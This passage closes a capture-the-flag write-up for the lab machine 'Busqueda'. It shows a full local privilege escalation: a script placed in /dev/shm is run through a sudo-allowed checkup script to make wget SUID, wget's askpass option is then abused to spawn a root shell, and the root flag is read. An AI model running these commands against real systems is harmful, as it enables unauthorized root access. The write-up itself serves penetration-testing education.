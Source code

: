 To that you need to do the following:

```

svc@busqueda:/dev/shm/my_dir$ cat full-checkup.sh
#!/bin/bash

chmod u+s /usr/bin/wget

svc@busqueda:/dev/shm/my_dir$ chmod +x full-checkup.sh                  
svc@busqueda:/dev/shm/my_dir$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:/dev/shm/my_dir$ find / -perm -4000 2>/dev/null
...
/usr/bin/wget 
...

svc@busqueda:/dev/shm/my_dir$ TF=$(mktemp)
svc@busqueda:/dev/shm/my_dir$ chmod +x $TF
svc@busqueda:/dev/shm/my_dir$ echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
svc@busqueda:/dev/shm/my_dir$ /usr/bin/wget --use-askpass=$TF 0
# bash -p
bash-5.1# cat /root/root.txt 
c6e210d4564f7985bf5b011033f6764a

```

And thats all for this box, fun and easy machine with a lot some twists like reused passwords and no public PoC for the foothold so you need to build the payload yourself overall great machine. Thanks for tuning in, Cheers!
